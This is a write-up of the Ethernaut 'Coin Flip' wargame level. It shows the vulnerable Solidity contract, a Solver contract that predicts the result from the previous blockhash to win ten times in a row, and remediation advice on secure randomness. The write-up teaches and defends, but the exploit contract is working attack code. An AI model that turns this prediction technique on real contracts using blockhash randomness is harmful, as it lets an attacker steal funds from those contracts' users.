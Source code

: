 ![Coin Flip](/assets/img/BigLevel3.svg)

- [Challenge](#challenge)
- [Solution](#solution)
- [Remediation](#remediation)
- [References](#references)
   
# Challenge

This challenge gives us the code of the contract and reads:

> This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

The code given is:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

# Solution

By looking at the contract's code, we see that we can call the flip function, which takes a boolean as input and after "throwing a coin" it compares the outcome with our bet (our input) if they are the same it increments the `consecutiveWins` counter by 1, if it differs, it sets the variable back to 0. 

To solve this challenge, it says that we need to guess the correct outcome 10 times in a row.

So, how can we guess the output of the "coin flip". Well let's look at that code. To get the coin flip, it takes the last block number, gets its hash and divides it by a "factor". This will give true or false.

The problem with this "randomness" generation method is that it's not random at all! Anyone can know what the last block number is... We just need to code some kind of solver or guesser.

To do that I copied the `CoinFlip.sol` code given by the challenge and modified it, so it would "guess" what the outcome of `flip()` will be, and then call `coinFlip.flip()` with that same output:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "hardhat/console.sol";
import "./CoinFlip.sol";

contract Solver {
    uint256 lastHash;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip coinFlip;
    uint256 public consecutiveWins = 0;

    constructor(address coinFlipAddress) {
        coinFlip = CoinFlip(coinFlipAddress);
    }

    function solve() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        console.log("Solver blockValue: ", blockValue);

        uint256 coin = blockValue / FACTOR;

        bool side = coin == 1 ? true : false;
        coinFlip.flip(side);
        consecutiveWins = coinFlip.consecutiveWins();
        console.log("Consecutive wins: ", coinFlip.consecutiveWins());
    }
}
```

We can deploy this Solver contract with the ethernaut's contract address as input and the run `solve()` function 10 times.

I created a Hardhat project that will automatically deploy the contract and run the `solve()` function 10 times! You can find it here: https://github.com/nicolasraus/ethernaut-03-coin-flip-solver

After running `solve()` function 10 times, we can verify that now the `consecutiveWins` variable is 10 by running:
```javascript
await contract.consecutiveWins().then(v => v.toString())
'10'
```
And that's it! We solved it :))

![Well done](/assets/img/ethernaut_solved.png)

# Remediation

To prevent this kind of vulnerabilities do not try to generate randomness by using fields that are controlled by the miner, instead use:
- a commitment scheme, e.g. [RANDAO](https://github.com/randao/randao).
- external sources of randomness via oracles, e.g. [Oraclize](http://www.oraclize.it/). Note that this approach requires trusting in oracle, thus it may be reasonable to use multiple oracles.
- Bitcoin block hashes, as they are more expensive to mine.

# References

- [SWC-120](https://swcregistry.io/docs/SWC-120)